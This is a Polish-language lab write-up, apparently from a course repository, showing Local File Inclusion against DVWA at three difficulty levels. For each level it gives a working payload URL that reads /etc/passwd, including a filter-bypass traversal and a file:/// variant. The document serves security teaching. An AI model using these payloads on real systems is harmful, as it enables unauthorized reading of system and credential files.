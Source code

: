 # LFI - Local File Inclusion
## Opis techniki
<blockquote>Local File Inclusion (LFI) występuje, gdy aplikacja nie weryfikuje i nie filtruje poprawnie danych dostarczanych przez użytkownika, które są używane do wczytania lub uruchomienia lokalnych plików. Atakujący może wykorzystać tę lukę, wstrzykując specjalnie spreparowane dane, aby osiągnąć następujące cele:

* Odczyt poufnych informacji: Atakujący może próbować odczytać poufne informacje, takie jak pliki konfiguracyjne, hasła, klucze prywatne lub inne wrażliwe dane przechowywane na serwerze. Dołączając te pliki, atakujący może uzyskać dostęp do tych poufnych informacji.
* Wykonanie kodu: Jeśli aplikacja webowa uruchomi załadowane pliki, atakujący może próbować dołączyć złośliwy kod, który zostanie wykonany na serwerze. Może to prowadzić do naruszenia bezpieczeństwa serwera, wykonywania dowolnych poleceń, a nawet zdalnego wykonywania kodu.
* Ataki na infrastrukturę: LFI może być wykorzystywane jako część szerszego ataku na infrastrukturę. Atakujący może dołączyć pliki systemowe, takie jak /etc/passwd lub /etc/shadow, w celu zebrania informacji o użytkownikach lub innych poufnych danych systemowych. Informacje te mogą być następnie wykorzystane do dalszych działań w ramach ataku.</blockquote>

## DVWA labs

- [DVWA LFI #1 - Low](#dvwa-lfi-1---low)

- [DVWA LFI #2 - Medium](#dvwa-lfi-2---medium)

- [DVWA LFI #3 - High](#dvwa-lfi-3---high)


<br/>

## DVWA LFI #1 - Low
Na niskim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Brak filtrowania


#### Przykładowy link powodujący zwrócenie pliku /etc/passwd 
<http://10.10.14.17/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd>

#### Efekt kliknięcia w link:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_023627751.png "Po kliknięciu w link zwrócona zostanie zawartość pliku /etc/passwd")

#### Żądanie i odpowiedź:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_024052411.png "Żądanie i odpowiedź zdradzająca zawartość pliku /etc/passwd")


<br/>

<br/>
<br/>

## DVWA LFI #2 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie polegające na wycinaniu `../`, `.."` oraz `http://` i `https://`


#### Przykładowy link powodujący zwrócenie pliku /etc/passwd 
<http://10.10.14.17/vulnerabilities/fi/?page=..././..././..././..././..././..././..././..././..././etc/passwd>

#### Efekt kliknięcia w link:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_023814218.png "Po kliknięciu w link zwrócona zostanie zawartość pliku /etc/passwd")

#### Żądanie i odpowiedź:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_024109936.png "Żądanie i odpowiedź zdradzająca zawartość pliku /etc/passwd")

<br/>

<br/>
<br/>

## DVWA LFI #3 - High
Na wysokim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dane wejściowe muszą zaczynać się od `file`


#### Przykładowy link powodujący zwrócenie pliku /etc/passwd 
<http://10.10.14.17/vulnerabilities/fi/?page=file:///etc/passwd>

#### Efekt kliknięcia w link:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_023943467.png "Po kliknięciu w link zwrócona zostanie zawartość pliku /etc/passwd")

#### Żądanie i odpowiedź:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-09_024124518.png "Żądanie i odpowiedź zdradzająca zawartość pliku /etc/passwd")

<br/>
